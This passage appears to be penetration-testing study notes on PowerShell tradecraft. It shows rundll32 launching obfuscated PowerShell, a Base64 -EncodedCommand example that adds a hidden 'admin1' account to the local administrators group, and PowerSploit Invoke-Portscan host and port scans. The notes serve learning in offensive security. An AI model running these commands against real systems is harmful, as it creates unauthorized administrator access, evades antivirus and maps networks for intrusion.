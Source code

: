 then option **0** - No execution flags
→ 0

The resulting string, is an obfuscated command that utilizes rundll32.exe with the "SHELL32.DLL" function (ShellExec_RunDLL) which will launch our obfuscated powershell code on the target.

> [+] There is an option: **tutorial** that we can use to get some guidance if we are stuck


### Encoded Commands
its not recommended since it can be easily detected by AV and other string heuristics, considering its just a base64 encoding.

-EncodedCommand parameter in powershell
	it makes complex commands **digestible** by powershell by encoding everything with Base64.

#### example
```powershell

$command = 'net user admin1 "password" /ADD; net localgroup administrators admin1 /add'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

```

we can get the results of our encoded command with:
```powershell
→ Write-Host $encodedCommand
```

//copy the payload

then execute on the target:
```powershell
powershell.exe -encodedcommand <paste the payload>
```


## Information Gathering & Recon

Invoke-Portscan = https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1
its included with the powersploit framework
```powershell
Invoke-Portscan -Hosts "192.168.13.1/24" -PingOnly
Invoke-Portscan -HostFile ips.txt -PingOnly
```

- to save the results we can pipe and export-csv
```powershell
Invoke-Portscan -HostFile ips.txt -PingOnly | Export-Csv C:\ping_scan.csv
```

once we have identified live hosts
we can conduct port scans
```powershell
Invoke-Portscan -HostFile ips.txt -ports "53-81"
```
